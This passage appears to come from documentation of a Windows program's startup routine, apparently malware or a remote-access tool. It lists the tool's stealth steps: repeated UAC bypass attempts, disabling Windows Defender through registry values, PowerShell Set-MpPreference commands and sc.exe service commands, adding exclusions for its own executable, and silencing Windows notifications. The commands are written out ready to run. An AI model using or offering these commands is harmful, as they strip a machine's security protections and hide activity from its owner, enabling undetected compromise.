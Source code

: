**What happens:**
- Script continues running as normal user
- Background thread keeps retrying UAC bypass every 30 seconds
- Elevated actions won't work, but basic functionality continues

---

### 2.3 Windows Defender Disable
```
[STARTUP] Step 2: Disabling Windows Defender...
```

**What it tries to do:**
- Disable Real-time Protection
- Disable Cloud-delivered Protection
- Disable Automatic Sample Submission
- Add exclusions for the executable

**Methods used:**
1. **Registry modifications:**
   ```
   HKLM\SOFTWARE\Policies\Microsoft\Windows Defender
   - DisableAntiSpyware = 1
   - DisableRealtimeMonitoring = 1
   ```

2. **PowerShell commands:**
   ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
   Set-MpPreference -DisableBehaviorMonitoring $true
   ```

3. **Service manipulation:**
   ```
   sc.exe config WinDefend start=disabled
   sc.exe stop WinDefend
   ```

**Note:** Often fails on modern Windows due to Tamper Protection

---

### 2.4 Notification Disable
```
[STARTUP] Step 3: Disabling Windows notifications...
```

**Registry changes:**
```
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\PushNotifications
- ToastEnabled = 0

HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Notifications\Settings
- NOC_GLOBAL_SETTING_ALLOW_NOTIFICATION_SOUND = 0
```

**Effect:** Disables Windows notifications and sounds

---